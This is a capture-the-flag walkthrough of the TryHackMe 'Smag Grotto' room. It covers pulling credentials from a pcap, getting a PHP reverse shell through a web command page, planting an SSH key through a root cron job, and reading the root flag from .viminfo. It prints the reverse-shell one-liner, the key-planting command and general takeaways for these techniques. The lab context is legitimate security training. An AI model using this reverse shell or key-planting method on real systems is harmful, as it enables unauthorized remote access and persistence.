



# Smag Grotto

[Smag Grotto](https://tryhackme.com/room/smaggrotto) is a really innovative room and for me, it was a room that helped me develop a different perspective form enumeration as well as privilege escalation.

This room involves skills such as packet analysis, popping a reverse shell, enumeration (obviously) and a few other things. So, let's begin!

### Initial Foothold
First of all, we need to deploy the machine. And as basic step we can start our basic enumeration like browsing the webpages and starting a `dirb` scan.

On the homepage, there is nothing but a statement that 'The website is under development'. There are no comments or any other useful information in the source-code as well.


From the dirb results, we can see that there is a hidden directory  `mail/`, so we can go and check it out.



Here we can see a mail chain between multiple people discussing some anomaly that was detected in the network. Also, in the first mail we can see there is a `.pcap` file attached. We can download that file and analyze the traffic with Wireshark.


From these logs, we can analyze the events in a proper sequence as:

1. `Source IP: 192.168.33.10` initiated a `3-way handshake` with `Dest. IP: 192.168.33.69`, which can be confirmed by the first 3 events of [SYN], [SYN, ACK] and [ACK].
2. After that, a `POST request` was sent from the source towards the destination IP address.
3. When we expand the request, we can see a `pair of username and password` sent towards the `/login.php` page on `Host: development.smag.thm`. 
4. Then the destination IP acknowledges the POST request that was sent with a `200 OK` response.
5. Later the TCP connection was closed which can be confirmed by the last 3 events related to [FIN, ACK] and [ACK].


Now, we have a pair of credentials and a domain where we can use these credentials. Now, we know that our `<machine_ip>` would be resolved to `smag.thm` but if we look closely at the host value in the packet, we can observe that there is a sub-domain as well. Now, the issue with sub-domains is that you can't use them along with IP address eg. `development.<machine_ip>` won't get resolved.

So, the solution for this issue is `/etc/hosts` file. We can create an entry for the hostname resolution from `development.smag.thm` towards our `machine_ip`. This can be done by simply adding a line to the hosts file as:
```
<machine_ip>	development.smag.thm
```

P.S. changes to the hosts file can be made only with root privileges
After which your hosts file would look like:
```
tester@kali:~$ cat /etc/hosts
127.0.0.1	localhost
127.0.1.1	kali
10.10.208.229	development.smag.thm

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

So, now that we have added the resolution to the hosts file, we can move on to access the website for which we have the credentials and check what access do we have.



After logging in, we land upon a page from where we can execute commands supposedly on the machine where this website is hosted.


Now, running a command from the website gives us a hint that we can try to pop a reverse shell by passing proper commands from the website but before that, we must check if a connection can be established between our local machine and the target. This can be done by starting a listener on our local machine by using the `tcpdump` command and then sending `ping` requests from the website.



Command used for tcpdump: `sudo tcpdump -i tun0 icmp`. This mentions that ICMP traffic on tun0 is to be captured. 

The ping command: `ping <machine_ip> -c 10` means that we are sending exactly 10 pings to the mentioned IP address.

As we can observe the ping requests in tcpdump, we can be sure that the target machine can connect with our local machine. So, our next task would be to find a proper payload to get the reverse shell on our local machine. 

I used [Payload All Things Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) and started to use each payload that was present over there. The payload that worked for me was:

```
php -r '$sock=fsockopen(<local_machine_ip>,4242);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
```

Now we can start a `netcat` listener on our local machine using the command: `nc -nvlp 4242` and then enter the above-mentioned php payload on the website with the IP address changed to that of our local machine. 

As soon as the command gets executed on the target machine, a reverse shell would pop up on our local machine. 


Now, we can check basic details like `whoami`, `pwd` and check if we can access the user.txt file.

```
tester@kali:~$ nc -nvlp 4242
listening on [any] 4242 ...
connect to [10.8.91.135] from (UNKNOWN) [10.10.23.169] 52604
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ pwd
/var/www/development.smag.thm
$ ls /home
jake
$ cd /jake
/bin/sh: 4: cd: can't cd to /jake
$ 
```

From the above details, we can see that we are logged in as `www-data` and are in the `var/www` directory. Also, there is one user named `jake` on the system and the user.txt file must be in his directory only but we can't access his directory. So, we need to find some way to raise our privileges to jake's level so that we can read files in his directory.

We can download and run `linPEAS` and '`linenum` but before that, we can check one crucial thing where we can find most of the issues related with such targets and that is the cron jobs.

```
$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root	/bin/cat /opt/.backups/jake_id_rsa.pub.backup > /home/jake/.ssh/authorized_keys
#
```

We can see that there is one suspicious cron job running on the system. This cron job is basically writing the contents of `/opt/.backups/jake_id_rsa.pub.backup` to `/home/jake/.ssh/authorized_keys`, that too with root privileges. The next thing that we can do is try to access the backup key:

```
$ cat /opt/.backups/jake_id_rsa.pub.backup
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC5HGAnm2nNgzDW9OPAZ9dP0tZbvNrIJWa/swbWX1dogZPCFYn8Ys3P7oNPyzXS6ku72pviGs5kQsxNWpPY94bt2zvd1J6tBw5g64ox3BhCG4cUvuI5zEi7y+xnIiTs5/MoF/gjQ2IdNDdvMs/hDj4wc2x8TFLPlCmR1b/uHydkuvdtw9WzZN1O+Ax3yEkMfB8fO3F7UqN2798wBPpRNNysQ+59zIUbV9kJpvARBILjIupikOsTs8FMMp2Um6aSpFKWzt15na0vou0riNXDTgt6WtPYxmtv1AHE4VdD6xFJrM5CGffGbYEQjvJoFX2+vSOCDEFZw1SjuajykOaEOfheuY96Ao3f41m2Sn7Y9XiDt1UP4/Ws+kxfpX2mN69+jsPYmIKY72MSSm27nWG3jRgvPZsFgFyE00ZTP5dtrmoNf0CbzQBriJUa596XEsSOMmcjgoVgQUIr+WYNGWXgpH8G+ipFP/5whaJiqPIfPfvEHbT4m5ZsSaXuDmKercFeRDs= kali@kali
```

And it does work as we can access the backup key. So, anything that we put in this file would get copied to the `authorized_keys` file which belongs to jake. Now, before going further we must know  what does the `authorized_keys` file contains and what role does it play. 

The authorized_keys file contains public_keys associated with the private_keys using which an SSH connection can be accepted. In simple terms, if we have a private_key whose associated public_key is present in jake's authorized_keys file then we can start an SSH session as jake on the target machine.

The only way to do this is by creating a key pair on our local system and then copying it to the backup key file so that it then gets copied to jake's authorized_keys. The steps that we need to take are:

1. Create a new key on our local system using the command: `ssh-keygen -t rsa` and specify the name of the file in which you want keys to be saved (I've used the name 'jake' itself) else it might overwrite you own personal SSH keys.
2. Enter a passphrase for the key or leave it empty.
3. This will generate a pair of a public and a private key (eg. `jake.pub`:public key and jake: private key)


4. The next task is to copy the public key to the backup file on the target machine.

```
$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCmwTk3I63Smeuvy2IB3SK4XV8O3HrK4Ol3b7aSdGrdbA6QPFg2OtjgLAxWp28vls/XV6LBHhzjBYa5FtpnAIaG0/T5t89CLRV1kRYQ/Cl1xtBk4tx4VkJcJQDCK8muJWv5ArQhrIC8pMhEwdTU33dRxzJfeCCOxsUbaRk5TGKJIF34oK/d8wItKuzuKKtaaHNsMH+DkZ3LwrB7l+t9md3dPvGMsu7vnFd2vVH8gDQu4vw9hqC6iiBTlLnQMQ4da6tu0KHU26chPl93ymz6gcaiwOAV2hPW+lA53tI/9rDhUVAbcQkGhwloD704pFRHDoGttzKxSKNsINY0X2vhQWFJO7arpyOI/uf/rVOb7yJmGA7pV9GQk56xGoyJ9Hg9d1gnXwIBP353dzpE3qJdQAfEi/lBMA7jflSA4syppes8O/PrcKxMWdDnoK6nZUGGwMKKf45uRKpDHT3NwdVC5xf7bm0svjD8bXdyM6u35RQS5dRUwR20KY8srjWgoAfei4c= tester@kali" > /opt/.backups/jake_id_rsa.pub.backup
```

5. The cron job executes every minute, so we need to wait for a minute and then try to access the target machine using the newly created private key via SSH.

```
tester@kali:~/Desktop$ ssh -i jake jake@10.10.23.169
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Last login: Sun Aug  2 17:58:41 2020 from 10.8.91.135
jake@smag:~$ 

```

As I had not supplied any passphrase while creating the key, it did not ask for it while logging on to the target machine. So, now we have accessed the machine as `jake`. We can now read the `user.txt` in jake's home directory and submit it as the value to the first flag.

### Privilege Escalation
The second task is to get the `root.txt` flag. Before that, we can check the commands that jake can run with root privileges using the command: `sudo -l`. 

```
jake@smag:~$ sudo -l
Matching Defaults entries for jake on smag:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on smag:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get
jake@smag:~$ 
```

It can be seen that we can run the `apt-get` command with sudo privilege but it is not useful as the target machine is not connected to the internet. So, we need to look for some other method to escalate our privileges. We can look into the files present in jake's directory for some information leakage.

```
jake@smag:~$ ls -la
total 60
drwxr-xr-x 4 jake jake 4096 Jun  5 11:05 .
drwxr-xr-x 3 root root 4096 Jun  4 11:37 ..
-rw------- 1 jake jake  495 Aug  2 18:09 .bash_history
-rw-r--r-- 1 jake jake  220 Jun  4 11:37 .bash_logout
-rw-r--r-- 1 jake jake 3771 Jun  4 15:12 .bashrc
drwx------ 2 jake jake 4096 Jun  4 11:39 .cache
-rw------- 1 root root   28 Jun  5 11:05 .lesshst
-rw-r--r-- 1 jake jake  655 Jun  4 11:37 .profile
-rw-r--r-- 1 root root   75 Jun  4 15:53 .selected_editor
drwx------ 2 jake jake 4096 Jun  4 15:27 .ssh
-rw-r--r-- 1 jake jake    0 Jun  4 11:45 .sudo_as_admin_successful
-rw-rw---- 1 jake jake   33 Jun  4 13:02 user.txt
-rw------- 1 jake jake 9336 Jun  5 11:05 .viminfo
-rw-r--r-- 1 root root  167 Jun  5 09:29 .wget-hsts
jake@smag:~$ 
```

We can see that there are many files here that are not usually present in a user's directory and one such file is `.viminfo`. This file contains various commands that were executed on the machine and in the same file a line can be found:

```
echo "xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx" > /root/root.txt
```

This gives us the value that is being entered in the `root.txt` file which usually contains the flag. So basically, we got the flag even without escalating to root!!!

This room had really a different approach, especially regarding the root flag.

## Some Key Points to Take Away
1. Whenever you have logs, look for credentials or other files that might be transferred.
2. If you can execute command remotely on the target machine, try to use different reverse shell payload.
3. If you have access to the remote machine's users' authorized_keys replace it with your keys and access the machine via SSH.
4. Always look at all odd files with a sharp eye as there might be some form of sensitive information disclosure.